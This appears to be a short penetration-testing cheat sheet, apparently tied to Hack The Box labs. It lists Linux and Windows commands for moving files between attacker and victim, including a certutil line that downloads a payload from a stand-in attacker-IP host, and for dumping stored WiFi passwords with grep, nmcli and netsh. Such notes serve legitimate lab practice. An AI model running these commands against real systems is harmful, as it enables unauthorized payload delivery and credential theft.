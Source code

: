 # Useful Commands

## Linux

- Bash
  - transfer files between attacker/victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - dump WiFi network passwords
    - `sudo grep -r '^psk=' /etc/NetworkManager/system-connections/`
      - of all remembered WiFi networks
    - `nmcli dev wifi show-password`
      - of currently connected WiFi network
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`
  - fix for HTB OVPN problems
    - create a file `sudo vim /etc/network/if-up.d/tun0-mtu`
      - ```#!/bin/sh

if [ "$IFACE" = "tun0" ]; then
    sudo ifconfig tun mtu 1200
fi
    ```

## Windows

- cmd
  - transfer files between attacker/victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
      - use anonymous login
  - dump WiFi network passwords
    - `netsh wlan show profiles name="$SSID" key=clear`
      - of all remembered WiFi networks
